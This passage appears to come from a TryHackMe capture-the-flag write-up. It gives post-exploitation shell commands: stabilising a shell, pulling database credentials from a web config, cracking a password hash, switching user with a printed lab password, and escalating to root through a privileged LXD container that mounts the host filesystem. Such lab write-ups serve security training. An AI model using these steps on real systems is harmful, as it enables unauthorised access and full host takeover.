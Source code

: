 ![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/932ecdae-6578-49e3-a90f-41412934a273)

find web.txt

```
find / -name web.txt -type f 2>/dev/null
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/a7ab3f26-dbe9-4e92-a6d7-bc26305a499e)

upgrade and stabilize shell

```
export TERM=xterm
Ctrl+Z
stty raw -echo; fg
```

Review the configuration files for the webserver to find credentials

```
cat /var/www/TheGrid/includes/dbauth.php
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/eaa51125-b40c-4c55-bbf0-60c9e6a35e36)

connect to the database

```
mysql -u tron -p
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/88640e0f-721f-490b-9bf8-d6cd2e5601bd)

see users table in tron

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/16244317-6773-41f3-9e95-441128b25928)

use CrackStation to crack the password

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/ede0b026-faaf-43fb-afa0-4522d14bd2d6)

```
su flynn
@computer@
cd ~
cat user.txt
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/a873a1eb-2dd2-451a-b9aa-5f043865d603)

you can see it's in group of lxd which can related to privilege escalate

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/ce9d8f34-91d9-48b0-b44a-71c215412d8a)

```
lxc image list
lxc init Alpine mycontainer -c security.privileged=true
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
lxc start mycontainer
lxc exec mycontainer /bin/sh
```
